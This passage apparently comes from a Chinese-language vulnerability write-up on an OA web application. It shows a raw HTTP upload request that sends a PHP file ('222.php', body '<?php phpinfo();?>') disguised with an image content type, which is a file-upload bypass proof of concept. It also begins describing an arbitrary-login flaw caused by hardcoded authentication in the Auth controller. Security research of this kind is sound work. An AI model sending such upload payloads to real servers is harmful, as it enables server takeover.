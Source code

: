 ```plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="FileData"; filename="222.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryQayVsySyhSwgpmLk--
```

## 任意用户登录

在上传的篇章中其实是可以知道架构的，所以看了下`oa`​下的文件，发现`Auth`​的鉴权控制器查看后发现存在硬编码

[![](assets/1709083162-d1aef611e87e15d28cc52a35f25d0993.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110348-d4089916-d51c-1.png)
